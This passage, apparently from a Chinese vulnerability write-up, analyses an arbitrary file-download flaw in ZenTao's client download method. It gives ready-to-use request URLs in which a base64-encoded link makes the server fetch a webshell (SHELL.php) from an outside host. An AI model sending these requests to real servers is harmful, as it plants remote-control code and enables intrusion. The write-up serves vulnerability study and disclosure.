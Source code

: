 ```php
            fwrite($local, $buffer);
        }
        fclose($local);
        fclose($remote);
        return commonModel::getSysURL() . $this->config->webRoot . $dir . $file;
    }
```

可以简单看到这里获取link传入的文件名，通过**fopen**打开该文件，写入禅道目录**www/data/client/version**中

查看一下有没有调用这个方法的地方

![](image/zentao-7.png)

找到了**download**方法调用了这个漏洞点，所以我们有两种下载恶意文件的方法

```
http://xxx.xxx.xxx.xxx/www/client-download-[$version参数]-[base64加密后的恶意文件地址].html
http://xxx.xxx.xxx.xxx/www/index.php?m=client&f=download&version=[$version参数]&link=[base64加密后的恶意文件地址]
```

首先先上传一个恶意文件，可以是FTP也可以是HTTP

例如我上传的文件URL为**http://peiqi.tech/SHELL.php**

```
http://peiqi.tech/SHELL.php
|
base64加密  HTTP://peiqi.tech/SHELL.php
|
SFRUUDovL3BlaXFpLnRlY2gvU0hFTEwucGhw
```

请求地址则为

```
http://xxx.xxx.xxx.xxx/www/index.php?m=client&f=download&version=1&link=SFRUUDovL3BlaXFpLnRlY2gvU0hFTEwucGhw
```
